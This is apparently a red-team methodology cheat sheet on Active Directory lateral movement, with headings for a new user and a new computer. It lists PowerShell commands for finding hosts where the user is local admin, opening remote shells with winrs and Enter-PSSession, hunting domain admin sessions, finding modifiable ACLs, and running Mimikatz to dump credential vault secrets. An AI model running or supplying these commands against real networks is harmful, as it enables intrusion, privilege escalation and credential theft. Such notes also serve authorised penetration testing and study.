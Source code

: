 # Methodology

## New User

**=> New Bloodhound/Sharphound collection**

**Enumerate where you have local admin with the new user**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Find-LocalAdminAccess -Verbose  ==> Results weird?!?!
<strong>
</strong><strong>. ./Find-WMILocalAdminAccess.ps1
</strong>Find-WMILocalAdminAccess
Find-WMILocalAdminAccess - Computerfile computer.txt -verbose (all domain Computerhostnames from Get-NetComputer)
winrs -r:hostname cmd
Enter-PSSession -ComputerName hostname.fqdn.local

. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
winrs -r:hostnamee cmd
Enter-PSSession -ComputerName hostname.fqdn.local

</code></pre>

**Enumerate Sessions with the new privs, because you need to be local admin**&#x20;

```powershell
Invoke-Userhunter -groupname "domain admins"
```

**Find modifieable ACLs with user / Member Groups**

{% code overflow="wrap" %}
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "yourusername"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "GroupName"}
```
{% endcode %}



### New Computer

**Dump Creds from Lsass**

**Dump creds from credential vault (Scheduled Tasks)**

```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```



\
